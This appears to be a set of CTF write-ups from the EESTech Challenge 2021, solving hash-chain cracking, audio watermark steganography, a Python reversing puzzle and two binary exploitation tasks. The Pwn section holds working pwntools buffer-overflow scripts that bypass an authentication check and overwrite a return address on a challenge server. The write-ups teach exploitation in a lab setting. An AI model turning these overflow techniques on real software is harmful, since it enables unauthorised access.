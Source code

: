 # EESTech Challenge 2021 Official Write-ups
We helped EESTech and Mesa to organize and manage the CTF, and here you can find all the writeups of the challenges.

Formed by: 
* [Gregorio Galletti](https://github.com/gregalletti)
* [Stefano Bagarin](https://github.com/stepolimi)

# Write Ups - Categories and Points
## Cryptography

### Hashception

The challenge starts with a file containing bunch of alphanumerical strings, and 4 strings that were the first 4 strings in the file; the challenge name also states "Blake" which could refer to an hashing algorithm, interesting.

The strings length is repeated in a cyclic way, so:
* 1st string: 128 chars
* 2nd string: 40 chars
* 3rd string: 64 chars
* 4th string: 64 chars
* and then repeated  

We can try to bruteforce one of the first 4 strings (*da39a3ee5e6b4b0d3255bfef95601890afd80709*), resulting in an empty string hashed with SHA1. Ok so maybe also the other 3 correspond to an empty string? 
The answer is yes, and by simply trying I we can pull out also the other used algorithms, reaching this situation:
* 1st string: Blake 2b Hash
* 2nd string: SHA1
* 3rd string: SHA256
* 4th string: SHA3-256

From now on it's pretty easy: we know the algorithms and that we have to always add only a new character.

Here is the final script, that simply gets all the strings and starts from the 5th one. In a cyclic way it bruteforces char by char the 4 different hash types until the end: 
```python
import hashlib
alphabet = " 1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHILMNOPQRSTUVWXYZ,.-_'?!$%&/()={}"
message = ""

file1 = open('hash.txt', 'r')
Lines = file1.readlines()

count = 0;

for line in Lines:
	if(count >3):
		for c in alphabet:
			encMes = ""
			if(count % 4 == 0):
				encMes = hashlib.blake2b(str.encode(message +c)).hexdigest()
			elif(count % 4 == 1):
				encMes = hashlib.sha1(str.encode(message +c)).hexdigest()
			elif(count % 4 == 2):
				encMes = hashlib.sha256(str.encode(message +c)).hexdigest()
			elif(count % 4 == 3):
				encMes = hashlib.sha3_256(str.encode(message +c)).hexdigest()
			if(encMes in line):
				message += c
				break
	count +=1

print(message)
```
Flag: 

**flag_{1t3r4t1v3_h4sh_cr4ck1ng_1s_qu1t3_c00l_w1th_pyth0n}**

## Forensics

## Miscellaneous
### EESTudios
We are given 2 audio tracks, one "Studio" version and one "Official" version: this already was an hint, due to the fact that having 2 tracks and knowning there is a watermark (or a sort of copyright) we can conclude that we should do some operations between them. To solve it we can open the two tracks with ```Audacity``` to see if just the spectrum of the leaked track contains, for example, an image with the flag (common thing with audio steganography challenges). 

This was right, but we just wanted to fool you ("Nice try! This is not the flag" is displayed). A watermarked audio theoretically contains more than the non-watermarked one, so invert the second one (```Effects > Invert > Built-in-Effect: Invert```) and mix them (```Tracks > Mix > Mix and Render```): the result is, as expected, the actual watermark. By listening it, this is the spelling of the flag.

Here is the flag: 

**flag_{you_did_it}**

## Reversing
### Password Here Please

The challenge consinsted in reverse engineering a ```Python``` code to find the string that gets throught each check. The first step was just understanding that the problem could be divided in 4 parts.

The first part (lines 5-7) was just a check on the lenght of the string that must be 24 characters. 

The second part (lines 9-14) was a constrain con the first 8 characters of the string: theyr hexadecimal ASCII value being subtracted to 0x98 and concatenated togheter had to be equal to the string '&e"3&Ew*'.
	Resulting string = "r3verS!n"

The third part (lines 16-23) was checking the second set of 8 characters of the string. The last one's ASCII value added to the last character of the array "ring" and to 0x1f gave the last character of the string; each other one was it's following character's ASCII value plus the corresponding number in the "ring" array plus 0x1f if grather than 0x60-0x1e, minus 0x1f if between 0x40-0x1e and 0x60-0x1d, unchanged otherwise.
	Resulting string = "g_pyTh0n"

The fourth part (lines 25-31) was for the last 8 characters and it was the most challenging one. I tryed to convert "code" from hexadecimal to decimal value and then put it in base 257, the result was a nice "number":

[8, 0, 0, 0, 128, 0, 0, 0, 0, 0, 0, 0, 2, 0, 0, 0, 0, 0, 0, 16, 0, 0, 0, 0, 0, 0, 0, 0, 0, 64, 0, 0, 0, 0, 0, 4, 0, 0, 0, 0, 0, 0, 0, 0, 32, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]

after noticing that each number is a power of 2 I managed to realize that the distance from each non-zero number to the start of the number added to 0x28 was the ASCII value of the characters of the substring, while the exponent of 2 was the index of the character in the substring (0-7).
Once understood that, there was only left to find each value and reorder them.
	Resulting string= "_fOr_FUn"

The result was the 3 substrings togheter.

**r3verS!ng_pyTh0n_fOr_FUn**

## Pwn
### Binary1.0
This challenge is very trivial. Our goal is to bypass the if statement and execute the system function. to bypass the boolean controll we must modify the "isAuthenicated" variable from 0 to any other value, in simple terms we must overflow the buffer (48 bytes) with a payload of 48+8 bytes long; in this way we overwrite the content of "isAuthenticated" variable and wether the last eight bytes of the payload are different from zero we have bypassed the if statement and we get the flag.

Written in Python this is:
```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
r = remote("host1.metaproblems.com", 5150)

payload = b"a" * 62

r.send(payload)

r.interactive()
```

**MetaCTF{just_a_little_auth_bypass}**

### Binary2.0
This challenge is quite similar to the previus one. We always have to do a buffer owerflow in this way: to bypass the string comparison our buffer must start with "Sup3rs3cr3tC0de" string and it must overwrite RIP with the address of the win function. The below script is auto-esplicative.
```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
r = remote("host1.metaproblems.com", 5151)

# from a quick run with gdb
addr = 0x401172 
base = 0xd68
payload = b"Sup3rs3cr3tC0de" + b"\x00" * 33 + p64(base) + p64(addr)

r.send(payload)

r.interactive()
```

**MetaCTF{c_strings_are_the_best_strings}**

